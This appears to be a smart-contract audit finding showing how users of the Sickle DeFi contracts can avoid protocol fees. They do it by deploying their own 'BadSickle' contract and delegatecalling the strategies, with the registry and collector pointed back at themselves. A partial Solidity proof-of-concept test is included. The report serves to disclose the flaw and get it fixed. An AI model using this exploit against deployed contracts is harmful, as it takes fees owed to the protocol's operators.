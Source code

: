 But many of the strategies functionalities can be used by directly calling the callback entry point, a user could then deploy its own version of the sickle contract and use the strategies by directly `delegatecall()` to them.

In its own sickle version of the contract, the user could bypass fees using multiple ways:
- by changing the `registry` address to one that would return 0 as fee. 
- By changing the `collector` address to itself to just receive the fees directly. 
- By changing the `strategy` parameter to something that is not saved in the official `registry` which would result in 0 as a fee.

Here is a POC using the first and second bypass options (it can be copied and pasted in [AerodromeStrategy.t.sol](https://github.com/vfat-tools/sickle-contracts/blob/8e0e9d5fcb328857182eb948fa682f81d1474913/test/strategies/AerodromeStrategy.t.sol):

```solidity
contract BadSickle {
    address public owner;
    address public registry;
    address public collector;

    constructor(address _owner) {
        owner = _owner;
        registry = address(this);
        collector = address(this);
    }

    function deposit(
        address strategy,
        bytes calldata data
    ) public returns (bool success) {
        (success,) = strategy.delegatecall(data);
    }

    function feeRegistry(bytes32 feeHash) public pure returns (uint256) {
        return 0;
    }
}

...

function test_deposit_DepositsUsingDAINoFees()
        public
        prank
        returns (uint256 depositedAmount)
    {
        //deal dai and deploy custom sickle
        uint256 amountIn = 1000 ether;
        BadSickle badSickle = new BadSickle(sickleOwner);

        deal(Base.DAI, sickleOwner, amountIn);
        IERC20(Base.DAI).approve(address(badSickle), amountIn);

        //prepare deposit call
        IRouter.Route[] memory routeToOther = new IRouter.Route[](1);
        routeToOther[0] = IRouter.Route({
            from: Base.DAI,
            to: Base.WETH,
            stable: false,
            factory: Base.AERODROME_FACTORY
        });

        AerodromeStrategy.ZapInData memory zapData = AerodromeStrategy.ZapInData({
            router: Base.AERODROME_ROUTER,
            tokenIn: Base.DAI,
            amountIn: amountIn,
```